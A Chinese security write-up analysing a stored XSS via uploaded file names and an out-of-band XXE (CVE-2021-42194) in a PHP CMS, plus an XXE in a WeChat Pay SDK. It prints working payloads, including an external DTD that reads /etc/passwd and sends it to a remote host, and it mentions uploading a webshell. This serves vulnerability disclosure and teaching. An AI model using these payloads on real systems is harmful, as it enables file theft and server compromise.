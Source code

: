 0x01 存储型xss漏洞
=============

漏洞分析
----

1、定位到漏洞点，/application/function.php 我们可以发现对于上传的图片进行了后缀的检验，以及对于名称中的.\\/进行了过滤，但并没有对图片进行重命名

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f8812661efbde461b993f651489b78ad4e7eb3b3.png)

漏洞利用
----

1、所以我们可以上传名称为 `<img src=1 onerror=alert(1)>.jpg`的图片

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1a6adeef5b1bea27e3cda859dfe4a03bb598ee10.png)

2、点击头像-&gt;个人信息-&gt;更换头像-&gt;上传图片，我们发现xss代码成功执行

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3a5e3cf5d909a3417da95713aec6e2319466a753.png)

拓展
--

1、我们还可以上传名为一句话木马的图片

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-611fbfd24e7f40b8bc681df463cd7d630a6c0e4f.png)

如果目标网站是使用的phpstudy进行的建站，那么在mysql文件下的upload.MYD文件中会将一句话木马保存下来，如果目标站点存在文件包含漏洞，那么将直接getshell

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-fcdf92d7cafd2aca6134eb594dd766f4cc396af3.png)

0x02 xxe漏洞(cve-2021-42194 )
===========================

漏洞分析
----

1、我们定位到漏洞地址application/home/controller/Index.php的wechat\_return()方法中，我们可以看到第137行直接将传入的xml代码给到了simplexml\_load\_String函数进行了解析，并且没有禁用外部实体，最终导致了xxe漏洞。

而进入到simplexml\_load\_String函数的前提条件是，先从数据库中查询pay\_info字段，然后获取其中的appid，如果appid不为空或者传入的xml代码中存在appid，那么就会造成xxe漏洞。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b1f3c317f87a04bf75ae5d2664ab2d22d2bdd9d2.png)

2、这个appid可以定位到application/admin/controller/PayApi.php的WeChatPayConfig方法中

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b43e3b0ee614aef8d90885fef1e96a88be3d927a.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d31685409ba0e71578696a45b97f2dae13f83b7b.png)  
定位到网站中就是基本信息-&gt;接口配置-&gt;微信支付

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-44d52f1550975d4fd67db10fa367a4c03b510fe3.png)

定位到数据库中就是pay\_api\_config-&gt;pay\_mark=wechat-&gt;payinfo

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6c882d362179d1f8087d4352426612b374f6d358.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e013d9aa20d79a4ab7136335f93ce556625fe7ed.png)

漏洞利用
----

1、dnslog测试，发现是无回显的xxe

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9991b2ad158997c6898b84adaa9d55d3cd35d49b.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0ca7f5dcc1ddc35f49171fc0a31745355797847a.png)

2、我们可以使用参数实体，引用外部DTD。

```php
Payload

    
    %remote;%int;%send;
    \]>

test.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b9dcfac79d1698d702f7a4dd77803a12afde8671.png)

3、可以看到在服务器日志上面出现了我们想要的内容。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-64f12e88fa588fad403486a43c643654f3a8f8fe.png)

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

拓展
--

1、这个漏洞让我想到了微信支付的xxe漏洞，WXPayUtil下的xmlToMap方法存在XXE漏洞，使用了DocumentBuilder危险函数，直接将传入的字符串转换为了map集合，并且未对字符串进行过滤，导致攻击者可以传入任意的攻击代码。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6f2a8b8b347d9be5ef14214d18549f555e327db2.png)

我们写一个测试方法，调用xmlToMap方法，发现成功读取文件内容。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-701c52680bf7b2214b3b318ff0e98102135f1cc3.png)

```php
package com.github.wxpay.sdk;
import java.util.Map;
public class test {
     public static void main(String\[\] args) {
        String str = "<?xml version='1.0' encoding='utf-8'?>\\r\\n"+ 
        "\\r\\n"+
        " \]>\\r\\n"+ 
        "<creds><goodies>&goodies;</goodies><pa>susu</pa></creds>";
        Map<String, String> map;
        try {
            map = new WXPayUtil().xmlToMap(str);
            System.out.println(map);   
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

可能有些同学会有疑惑，为什么要嵌套两个元素，如： "&lt;creds&gt;&lt;passwd&gt;&amp;goodies;&lt;/passwd&gt;&lt;/creds&gt;";

因为传入的xml语句的元素会被当作map的key，变量会被当成map的value，如果是只嵌套一个元素，如： "&lt;creds&gt;&amp;goodies;&lt;/creds&gt;";转换为map后就变成了{ }，因为是获取子节点传入nodeList中，上面的写法没有子节点，所以输出null。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3fc535d86b263544b8a82cc6786c33735386450a.png)

可以看到子节点都被转换为map输出出来。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-36112055edeaca437bf24754e22f933bbe8f40b4.png)

0x03 参考链接
=========

<https://github.com/eyoucms/eyoucms/issues/19>  
<https://github.com/eyoucms/eyoucms/issues/23>